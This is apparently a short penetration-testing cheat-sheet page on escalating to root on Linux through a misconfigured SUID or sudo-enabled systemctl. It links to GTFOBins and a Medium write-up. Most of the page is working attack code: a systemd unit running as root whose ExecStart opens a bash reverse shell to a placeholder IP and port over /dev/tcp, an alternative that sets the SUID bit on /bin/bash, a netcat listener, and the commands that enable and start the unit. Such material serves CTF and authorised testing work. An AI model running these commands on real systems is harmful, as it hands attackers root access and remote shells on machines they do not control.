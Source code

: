 # systemctl

{% embed url="https://gtfobins.github.io/gtfobins/systemctl#suid" %}

{% embed url="https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49" %}

```
$ cat <<EOF > root.service
>[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/sh -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
# Alternatively
# ExecStart=/bin/sh -c 'chmod +s /bin/bash'

[Install]
WantedBy=multi-user.target
>EOF
```

```
# Listen on <port>
$ nc -nlvp <port>

# For set /bin/bash as suid binary approach, simply run:
$ bash -p
```

```
/bin/systemctl enable /dev/shm/root.service
/bin/systemctl start root
```
